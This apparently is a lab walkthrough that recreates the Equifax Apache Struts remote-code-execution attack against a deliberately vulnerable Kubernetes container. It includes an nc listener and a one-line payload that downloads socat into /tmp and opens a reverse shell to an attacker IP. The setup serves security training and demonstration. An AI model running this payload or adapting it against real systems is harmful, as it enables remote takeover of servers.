 ========================
Struts Attack - Equifax
========================

The goal of this article is to simulate the Equifax attack which was carried out exploiting Apache Struts vulnerability.

Apache Struts is an open-source framework used to build Java web applications. The vulnerability is a remote code execution bug that affects the Jakarta Multipart parser.

In this attack, the front end is exploited and a reverse shell is created in the machine where struts is running. The adversary can exploit that machine - escalate privileges, spawn and terminate processes, move laterally, and get to the crown jewels.

There are 2 parts to this setup

1) Setup a container running vulnerable Apache struts in Kubernetes
2) Attack the container, exploit the vulnerability and establish a command and control

.. image:: https://raw.githubusercontent.com/araalinetworks/attacks/main/images/strutssetup.png
 :width: 650
 :alt: ssrf setup


Running the Vulnerable container in Kubernetes
==============================================

**Container:** We have already created a container with a vulnerable Apache Struts app and its present at - quay.io/araalinetworks/struts:latest

Download the deployment yaml file --> **deployment.yaml**

Apply this file in your Kubernetes cluster in a specific namespace

.. code-block:: RST

    $ kubectl create ns strutfrontend
    $ kubectl apply -f deployment.yaml -n strutfrontend

Check (1) if the pods are running, and (2) get the External IP of the exposed service

.. image:: https://raw.githubusercontent.com/araalinetworks/attacks/main/images/strutskubectlgetpodsvc.png
 :width: 650
 :alt: kubectl get pods

Now open a browser and check if the app is up and running, by logging into the external IP on port 8080
http://40.88.254.51:8080/super-app/orders/3

.. image:: https://raw.githubusercontent.com/araalinetworks/attacks/main/images/strutsfrontend.png
 :width: 650
 :alt: frond end of the app

If you see the screen above, Congratulations! we have completed the first part.


Setup a VM to attack the container
==================================

Make sure **python 3.6** is installed on the VM.

Download the python file **attack42627.py** to your attack VM.

Executing the attack
********************


Now open two terminals, on one terminal type 

.. code-block:: RST
    
   $ sudo nc -nvlp 12345

On the other terminal type

.. code-block:: XML

   $ python3 strutattack/attack42627.py http://40.88.254.51:8080/super-app/orders/3 'wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:"ash -li",pty,stderr,setsid,sigint,sane tcp:104.41.3.199:12345'    


Here, 40.88.254.51 is the IP of the struts app.

and 104.41.3.199:12345 is the IP of the machine from which you are carrying out the attack.

.. image:: https://raw.githubusercontent.com/araalinetworks/attacks/main/images/strutterminalsetup.png
 :width: 650
 :alt: Terminal Setup

A reverse shell will be established on the listening port 12345

.. image:: https://raw.githubusercontent.com/araalinetworks/attacks/main/images/strutreverseshell.png
 :width: 650
 :alt: Terminal Setup

**Congratulations! Now you have a reverse shell on the container running the Struts Apps!**
